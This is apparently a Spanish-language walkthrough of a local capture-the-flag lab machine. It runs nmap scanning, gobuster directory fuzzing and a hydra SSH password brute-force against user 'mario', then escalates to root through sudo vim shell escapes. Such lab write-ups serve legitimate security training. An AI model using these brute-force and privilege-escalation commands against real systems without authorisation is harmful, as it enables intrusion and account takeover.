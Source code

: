 
Desplegamos el contenedor:

```
bash auto_deploy.sh trust.tar
```

![[Pasted image 20250129163249.png]]

```
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.18.0.2
```

![[Pasted image 20250129163344.png]]

Hacemos fuzzing:

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh
```

![[Pasted image 20250129163713.png]]

![[Pasted image 20250129163612.png]]

Nos dice un nombre (Mario)

```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64
```

![[Pasted image 20250129163905.png]]

Nos conectamos con SSH

```
ssh mario@172.18.0.2
```

![[Pasted image 20250129163946.png]]

Intentamos elevar privilegios

```
sudo -l
```

![[Pasted image 20250129164036.png]]

```
sudo vim -c ':!/bin/bash'
```

![[Pasted image 20250129164103.png]]

o también:

```
sudo -u root /usr/bin/vim
```

![[Pasted image 20250129164139.png]]

```
:!/bin/bash
```

![[Pasted image 20250129164211.png]]

![[Pasted image 20250129164233.png]]

Otra forma de elevar:

```
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

![[Pasted image 20250129164322.png]]

```
whoami
```

![[Pasted image 20250129164345.png]]